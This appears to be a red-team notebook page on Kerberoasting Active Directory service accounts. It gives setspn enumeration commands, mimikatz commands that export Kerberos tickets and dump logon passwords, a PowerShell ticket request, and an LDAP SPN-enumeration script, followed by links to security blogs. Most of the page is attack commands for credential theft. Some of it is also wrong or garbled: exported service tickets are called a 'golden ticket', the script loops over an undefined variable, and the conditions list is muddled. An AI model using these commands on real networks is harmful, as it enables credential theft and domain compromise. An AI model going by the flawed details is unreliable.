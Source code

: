 # Living off the Land

Search Tag(s): #kerberoasting

## 01 - Conditions

When SPN service accounts like SQLService, iis_svc, MSSQL_SVC, etc. With two of the following conditions in order to achieve this:

1. It must be part of the **"Domain Admins"** group member.
2. Has **weak passwords** when the **Kerberos 5, etype 23, TGS-REP** hash type is crackable due to those reasons (refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^87baa5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Enumeration

### 2.1 - Command Prompt

```
C:\> setspn.exe -T <computername>.<domain.com> -q */*

C:\> setspn.exe -T <computername>.<domain.com> -q */* | findstr.exe SQL

mimikatz # kerberos::list /export

mimikatz # sekurlsa::logonpasswords
```

## 2.2 - PowerShell

```
PS C:\> Add-Type -AssemblyName System.IdentityModel

PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/<FQDN>'

PS C:\> klist
```

Retrieve SPN users that are possibly **kerberoastable** of the `samaccountname` and `serviceprincipalname`.

```powershell
PS C:\> Get-Content .\enumerateSPN.ps1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString = $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$SearchString

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter = "serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

foreach($obj in $Output) {
    foreach($prop in $obj.Properties) {
        $prop
    }
}
```

You'll get a golden ticket

```
mimikatz # kerberos::list /export
```

Right-Click > CTRL + Right-Click > Run as different user

```
mimikatz # sekurlsa::logonpasswords
```

---
## References

- [LOFLCAB: setspn](https://lofl-project.github.io/loflcab/Binaries/setspn/)

### Active Directory Security

- [Active Directory Security: SPNs](https://adsecurity.org/?page_id=183)

- [Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain)](https://adsecurity.org/?p=1667)

### Mubix

- [Malicious.link: Kerberoast Part 1](https://room362.com/posts/2016/kerberoast-pt1/)

- [Malicious.link: Kerberoast Part 2](https://room362.com/posts/2016/kerberoast-pt2/)

- [Malicious.link: Kerberoast Part 3](https://room362.com/posts/2016/kerberoast-pt3/)

### Pentestlab

- [Pentestlab Blog: SPN Discovery](https://pentestlab.blog/2018/06/04/spn-discovery/)

- [Pentestlab Blog: Kerberoast](https://pentestlab.blog/2018/06/12/kerberoast/)

### Red Team Notes

- [Red Team Notes: Active Directory Kerberos Abuse Child Domain Domain Admin to Enterprise Admin In Parent Domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

- [Red Team Notes: Active Directory Kerberos Abuse T1208-Kerberoasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

### Hacking Articles

- [Hacking Articles: Deep Dive Into Kerberoasting Attack](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)

### Certcube

- [Certcube: Kerberoasting Simplified Attack and Defense](https://blog.certcube.com/kerberoasting-simplified-attack-and-defense/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - Kerberoasting](https://blog.xpnsec.com/kerberos-attacks-part-1/)